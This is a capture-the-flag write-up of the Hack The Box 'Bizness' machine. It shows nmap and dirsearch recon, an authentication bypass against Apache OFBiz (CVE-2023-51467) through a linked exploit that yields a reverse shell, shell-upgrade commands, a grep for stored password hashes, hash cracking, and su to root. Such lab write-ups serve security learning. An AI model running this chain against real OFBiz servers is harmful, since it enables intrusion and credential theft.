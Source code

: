 ```yaml
---
title: "Bizness"
date: 2024-01-11 18:58:00 +0100
categories: [writeup, easy]
tags: [machine, CVE 2023-51467]
---
```

<p>
    <a href="https://app.hackthebox.com/machines/582">
        <img src="assets/img/bizzness/Bizness.png" width="500">
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/80](#2-tcp-80)
3. [CVE-2023-51467](#3-cve-2023-51467)
4. [Privilege Escalation](#4-user-to-root)


## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.252
Nmap scan report for 10.10.11.252
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb  8 10:10:57 2024 -- 1 IP address (1 host up) scanned in 29.47 seconds
```

## 2. TCP-80

There is an active service on port 80 and, as you can see from the nmap output, it redirects us to *https://bizness.htb*, so before connecting, we add it in `/etc/hosts`.

<p>
  <img src="assets/img/bizzness/home (1).png" />
</p>

Not seeing anything interesting I started [dirsearch](https://github.com/maurosoria/dirsearch).

```bash
└─$ dirsearch -u https://bizness.htb --exclude-status 403,404,500,502,400,401

302     0B   https://bizness.htb/accounting    -> REDIRECTS TO: https://bizness.htb/accounting/
302     0B   https://bizness.htb/catalog    -> REDIRECTS TO: https://bizness.htb/catalog/
302     0B   https://bizness.htb/common    -> REDIRECTS TO: https://bizness.htb/common/
302     0B   https://bizness.htb/content    -> REDIRECTS TO: https://bizness.htb/content/
302     0B   https://bizness.htb/content/    -> REDIRECTS TO: https://bizness.htb/content/control/main
302     0B   https://bizness.htb/content/debug.log    -> REDIRECTS TO: https://bizness.htb/content/control/main
200    34KB  https://bizness.htb/control
200    34KB  https://bizness.htb/control/
200    11KB  https://bizness.htb/control/login
302     0B   https://bizness.htb/error    -> REDIRECTS TO: https://bizness.htb/error/
302     0B   https://bizness.htb/example    -> REDIRECTS TO: https://bizness.htb/example/
302     0B   https://bizness.htb/images    -> REDIRECTS TO: https://bizness.htb/images/
302     0B   https://bizness.htb/index.jsp    -> REDIRECTS TO: https://bizness.htb/control/main
200    21B   https://bizness.htb/solr/admin/
200    21B   https://bizness.htb/solr/admin/file/?file=solrconfig.xml
302     0B   https://bizness.htb/solr/    -> REDIRECTS TO: https://bizness.htb/solr/control/checkLogin/
```

Trying to connect to the first result obtained I am redirected to the [OFBiz](https://en.wikipedia.org/wiki/Apache_OFBiz) login page.

<p>
  <img src="assets/img/bizzness/OFBiz.png" />
</p>

## 3. CVE-2023-51467

Having the system version

<p>
  <img src="assets/img/bizzness/version.png" />
</p>

I started looking for vulnerabilities and I found [CVE-2023-51467](https://www.letsdefend.io/blog/exploitation-analysis-of-apache-ofbiz-zero-day-vulnerabilities-cve-2023-49070-cve-2023-51467#:~:text=CVE%2D2023%2D51467%20is%20a,without%20requiring%20any%20prior%20authentication.), thanks to which it is possible to bypass authentication and execute commands. So I found an [exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) for that CVE and performed a reverse shell.

<p>
  <img src="assets/img/bizzness/shell (1).png" />
</p>


We can have a better shell with the following command:

- python3 -c 'import pty; pty.spawn("/bin/bash")'
- CTRL + Z
- stty raw -echo; fg
- export TERM=xterm

In */home/ofbiz* there is the user flag.

## 4. User to ROOT

I tried using [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) without success, so, after some exploration, I found an interesting file in */opt/ofbiz/framework/resources/templates/* called *AdminUserLoginData.xml*.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
```

So we have the current password but it is of no use. Then I ran a grep on each file to see if there were any passwords that were usable.

```bash
ofbiz@bizness:/opt/ofbiz$ find . -type f -exec strings {} \; | grep "currentPassword"
[...SNIPPET...]
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
[...SNIPPET...]
```

In the output I found a salted hash referring to the admin (which after looking it up I saw was in */opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat*).

While looking for a way to crack the hash I found a [tool](https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker) that performs this operation on hashes coming from OFBiz.

<p>
  <img src="assets/img/bizzness/crack_hash.png" />
</p>

We use the password found to become superuser.

```bash
ofbiz@bizness:/opt/ofbiz$ su 
su 
Password: monkeybizness

root@bizness:/opt/ofbiz# whoami
whoami
root
```

In */root* there is the root flag.
